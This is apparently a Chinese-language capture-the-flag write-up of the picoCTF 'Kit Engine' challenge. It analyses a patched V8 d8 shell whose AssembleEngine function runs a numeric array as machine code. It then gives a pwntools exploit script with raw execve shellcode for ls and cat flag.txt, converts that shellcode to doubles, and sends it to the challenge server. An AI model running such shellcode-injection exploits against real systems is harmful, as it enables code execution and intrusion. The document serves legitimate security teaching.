 ## Recon
這一題很有趣，不過我原本不知道v8或d8是啥東東，以為是類似老舊攝影機???但看了[^pico_pwn_kit_engine_nickchen][^pico_pwn_kit_engine_maple]的WP，發現沒有想像中的複雜，首先他給了一個d8(也就是local端可以使用的v8，類似psysh的感覺，可以執行js的環境)，然後他有給一個patch，所以不用管其他的部分，只要專注在他patch的內容即可。

1. diff
從patch file可以看得出來他新實作了三個function: `uint64_t doubleToUint64_t(double d)`, `void Shell::Breakpoint(const v8::FunctionCallbackInfo<v8::Value>& args)`, `void Shell::AssembleEngine(const v8::FunctionCallbackInfo<v8::Value>& args)`，其中`Breakpoint`和`AssembleEngine`都是繼承Shell class，然後`AssembleEngine`需要傳入args的參數
2. Analyze `AssembleEngine` Function
在patch的33行中，會判斷傳入的args是不是array，然後array中每一個element都要是number，接著就會把value放到前面定義的func(其實就是function pointer)，再後面的for loop做的事情是把func中每一個element轉data type，從double轉成unsinged integer 64，接著就直接call這個function
3. Construct Payload
基於以上觀察，我們知道`AssembleEngine`可以直接執行我們給他的shellcode，只不過需要花心思在他的data type檢查，也就是args需要是array，且每一個element都必須是double才行

## Exploit - Build Shell Code & Transfer Data Type
```python=
from pwn import *
import struct

context.arch = 'amd64'

if args.REMOTE:
    ls = asm(shellcraft.execve(b"/bin/ls", ["ls"]))
    cat = asm(shellcraft.execve(b"/bin/cat", ["cat", "flag.txt"]))
    r = remote('mercury.picoctf.net', 48700)
else:
    ls = b'H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.cho.mr\x01H1\x04$H\x89\xe7hmr\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
    cat = b'j\x01\xfe\x0c$H\xb8/bin/catPH\x89\xe7h.txtH\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8b`u\x01gm`fH1\x04$1\xf6Vj\x0c^H\x01\xe6Vj\x10^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
    r = process(['python', 'server.py'])
log.info(f'ls shellcode: {ls}')
log.info(f'cat flag.txt shellcode: {cat}')

def Transfer2DoubleArray(shellcode):
    shell_array = []
    if len(shellcode) % 8 > 0:
        shellcode += (8 - len(shellcode) % 8) * b'\x00'
    for i in range(0, len(shellcode), 8):
        double_tmp = struct.unpack('d', shellcode[i:i+8])[0]
        shell_array.append(double_tmp)
    
    return shell_array



payload = f'AssembleEngine({Transfer2DoubleArray(ls)})'
r.recvuntil(b'Provide size. Must be < 5k:')
r.sendline(str(len(payload)).encode())
r.recvline()
r.sendline(payload.encode())
print(r.recvall().decode())
r.close()

if args.REMOTE:
    r = remote('mercury.picoctf.net', 48700)
else:
    r = process(['python', 'server.py'])
payload = f'AssembleEngine({Transfer2DoubleArray(cat)})'
```